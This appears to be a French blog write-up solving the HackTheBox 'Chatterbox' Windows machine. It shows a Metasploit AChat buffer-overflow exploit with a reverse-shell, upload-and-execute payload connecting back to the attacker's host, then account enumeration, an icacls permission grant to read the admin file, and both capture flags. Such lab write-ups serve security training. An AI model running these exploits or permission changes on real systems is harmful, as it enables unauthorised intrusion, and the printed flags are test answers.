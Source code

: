 ```yaml
---
title: "Solution du CTF Chatterbox de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Le CTF *Chatterbox* de [Hack The Box](https://www.hackthebox.eu) est un autre CTF qui tourne sur un système Windows.  

Ce challenge a été quelque peu énervant (laborieux) à scanner en raison du lag de la machine mais une fois les ports ouverts trouvés (après de multiples essais et options de *Nmap*) on finit à parvenir à quelque chose.  

Chauffe Alfred !
----------------

```plain
Nmap scan report for 10.10.10.74
Host is up (0.024s latency).

PORT     STATE    SERVICE VERSION
80/tcp   filtered http
9255/tcp open     http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open     achat   AChat chat system
```

On trouve facilement un exploit pour *Achat* parmi les modules *Metasploit*. Il aura seulement fallut trouver le bon payload pour passer le firewall / antivirus :  

```plain
msf exploit(windows/misc/achat_bof) > show options

Module options (exploit/windows/misc/achat_bof):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.74      yes       The target address
   RPORT  9256             yes       The target port (UDP)

Payload options (windows/upexec/reverse_tcp_allports):

   Name      Current Setting             Required  Description
   ----      ---------------             --------  -----------
   EXITFUNC  process                     yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.199                yes       The listen address
   LPORT     51571                       yes       The starting port number to connect back on
   PEXEC     /home/devloop/jail/jre.exe  yes       Full path to the file to upload and execute

Exploit target:

   Id  Name
   --  ----
   0   Achat beta v0.150 / Windows XP SP3 / Windows 7 SP1

msf exploit(windows/misc/achat_bof) > exploit

[*] Started reverse TCP handler on 10.10.14.199:51571 
[*] Sending stage (398 bytes) to 10.10.10.74
[*] Uploading executable (73802 bytes)...
[*] Executing uploaded file...
[*] Sending stage (179779 bytes) to 10.10.10.74
[*] Command shell session 1 opened (10.10.14.199:51571 -> 10.10.10.74:49157) at 2018-05-04 11:19:44 +0200
[*] Meterpreter session 2 opened (10.10.14.199:7777 -> 10.10.10.74:49158) at 2018-05-04 11:19:44 +0200

msf exploit(windows/misc/achat_bof) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         shell x86/windows                                        10.10.14.199:51571 -> 10.10.10.74:49157 (10.10.10.74)
  2         meterpreter x86/windows  CHATTERBOX\Alfred @ CHATTERBOX  10.10.14.199:7777 -> 10.10.10.74:49158 (10.10.10.74)

meterpreter > sysinfo
Computer        : CHATTERBOX
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: CHATTERBOX\Alfred

c:\users\Alfred>net users
net users

User accounts for \\CHATTERBOX

-------------------------------------------------------------------------------
Administrator            Alfred                   Guest                    
The command completed successfully.

c:\users\Alfred>net user Alfred
net user Alfred
User name                    Alfred
Full Name                    
Comment                      
User's comment               
Country code                 001 (United States)
Account active               Yes
Account expires              Never

Password last set            12/10/2017 10:18:08 AM
Password expires             Never
Password changeable          12/10/2017 10:18:08 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   5/4/2018 5:15:23 AM

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.
```

Cet accès est bien sûr suffisant pour obtenir le flag de l'utilisateur :  

```plain
C:\Users\Alfred\Desktop>type user.txt
type user.txt
72290246dfaedb1e3e3ac9d6fb306334
```

Windows permissions 101
-----------------------

Ce qui est surprenant, c'est qu'avec le compte *Alfred* on puisse aller jusqu'au bureau de l'administrateur. On est cependant bloqué au moment de récupérer le contenu de *root.txt* :  

```plain
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of c:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
12/10/2017  07:50 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,498,449,408 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.

c:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

*Administrator* est le seul utilisateur à disposer de droits sur ce fichier, toutefois il s'avère qu'on dispose nous aussi du contrôle total (F) sur le dossier *Desktop* :  

```plain
C:\Users\Administrator\Desktop>icacls .
icacls .
. NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  CHATTERBOX\Administrator:(I)(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

On peut alors ajouter les permissions qui nous permettront de lire le fichier :  

```plain
c:\Users\Administrator\Desktop>icacls root.txt /grant Users:F
icacls root.txt /grant Users:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
```


*Published June 17 2018 at 10:00*
